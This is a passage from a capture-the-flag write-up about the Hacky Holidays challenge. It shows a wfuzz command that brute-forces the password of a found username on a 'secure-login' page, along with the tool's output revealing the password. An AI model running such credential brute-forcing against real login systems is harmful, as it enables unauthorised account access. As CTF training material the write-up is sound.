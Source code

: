 Nice, wfuzz found a username: `access`. I tried to login with this username and a random password, and got a new error:

![invalid password](/assets/2021-01-07-hacky-holidays/flag5.a.png)

Next it was just a matter of brute forcing the password...

```
wfuzz -zfile,wordlists/passwords.txt --hs 'Invalid Password' -d 'username=access&password=FUZZ' https://hackyholidays.h1ctf.com/secure-login 

********************************************************
* Wfuzz 2.4.2 - The Web Fuzzer                         *
********************************************************

Target: https://hackyholidays.h1ctf.com/secure-login
Total requests: 9953

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                             
===================================================================

000000053:   302        0 L      0 W      0 Ch        "computer" 
```

...and then I had a password too! I tried to login with `access:computer` to collect the flag!

![nothing to download](/assets/2021-01-07-hacky-holidays/flag5.c.png)

...or maybe not. There was no flag there. I took a look around at the new page and noticed the `securelogin` cookie that had been set during login.

![interesting cookie](/assets/2021-01-07-hacky-holidays/flag5.d.png)
